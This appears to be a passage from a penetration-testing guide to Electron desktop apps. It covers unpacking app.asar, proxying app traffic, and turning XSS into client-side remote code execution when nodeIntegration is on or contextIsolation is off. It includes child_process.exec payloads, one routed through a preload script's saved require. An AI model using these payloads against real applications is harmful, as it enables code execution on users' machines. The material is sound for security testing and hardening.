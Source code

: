 ```bash
asar extract app.asar <OUT-FOLDER>
```

**repack the source code**

```bash
asar pack <FOLDER> app.asar
```

**proxy an electron application**

Look for `require("electron")` importing to find the global variable, add the next 2 lines below into the code and repack the source code:

```jsx
const electron = require("electron");
const app = electron.app;
app.commandLine.appendSwitch('proxy-server', '127.0.0.1:8080');
```

## 0-click client-side RCE due to disabled isolation

**For more details see the original research:** [**0-click RCE in Electron Applications**](https://shabarkin.medium.com/0-click-rce-in-electron-applications-1c4f81a2cd6b)

Look for `contextIsolation` and `nodeIntegration` options in any renderers ([BrowserWindow](https://www.electronjs.org/docs/latest/api/browser-window), [BrowserView](https://www.electronjs.org/docs/latest/api/browser-view), or [< webview >](https://www.electronjs.org/docs/latest/api/webview-tag)) that loads remote content. 

Prerequisites to straightforward RCE: 

`nodeIntegration` should be set to  `true`  (*Since in Electron version 5.0.0. the undefined* `nodeIntegration` *is set to `false` by default*)

`contextIsolation`  should be set to  `false`  (*Since in Electron version 12.0.0, the undefined `contextIsolation` is set to `true` by default*)

```bash
grep -HanrE "contextIsolation|nodeIntegration"
```

1. If the `nodeIntegration` is set to `true`, an attacker would need to find XSS in the main web application and use the following JS Code to achieve client-side remote code execution: 

```jsx
require("child_process").exec("uname -a",function(error,stdout,stderr){console.log(stdout);});
```

2. If the `contextIsolation` is set to `false`, an attacker would need to find XSS in the main web application and attack the built-in JavaScript functions or `preload:` scripts. 

**#preload_scripts:**

Identify functions in the preload scripts, which may satisfy the attack vector through XSS and use them in the JavaScript code of the malicious payload.

```jsx
#preload.js:
ElectronRequire = require; 
delete require;

#xss_payload:
ElectronRequire("child_process").exec("uname -a",function(error,stdout,stderr){console.log(stdout);});
```

